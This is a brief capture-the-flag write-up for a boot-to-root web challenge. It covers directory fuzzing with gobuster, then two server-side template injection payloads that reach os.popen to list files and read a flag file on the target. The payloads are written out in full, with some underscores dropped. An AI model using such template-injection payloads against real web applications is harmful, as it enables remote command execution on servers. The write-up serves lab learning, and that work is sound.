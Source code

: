## Challenge 1: Boot-2-Root : FLAG 1
<img width="529" height="943" alt="image" src="https://github.com/user-attachments/assets/b57fafcc-f574-4601-adc6-f204dfbb427d" />

Then gobuster to fuzz the website

<img width="870" height="458" alt="image" src="https://github.com/user-attachments/assets/dc6c66c6-af30-4b3e-ba86-a0e88b510f28" />

So we found /page exists, next we went into that site

It was like this,

<img width="839" height="286" alt="image" src="https://github.com/user-attachments/assets/02363902-0443-4740-8707-51672459a779" />

So we used SSTI injection to find the list of files

`{{ ''._class.mro[1].subclasses()[122].init.globals['builtins']['import_']('os').popen('ls').read() }}`

<img width="869" height="383" alt="image" src="https://github.com/user-attachments/assets/568e72db-e256-49c1-9ec1-d3c2011da64f" />

So we have found that there is a file named Fl4@G_0n3.txt.

Then I used the payload to print the contents of the file Fl4@G_0n3.txt

`{{ ''._class.mro[1].subclasses()[122].init.globals['builtins']['import_']('os').popen('cat Fl4@G_0n3.txt').read() }}`

Hence we got the flag!

<img width="445" height="196" alt="image" src="https://github.com/user-attachments/assets/c2fb057e-33ab-4b94-81a2-69d3548782e8" />
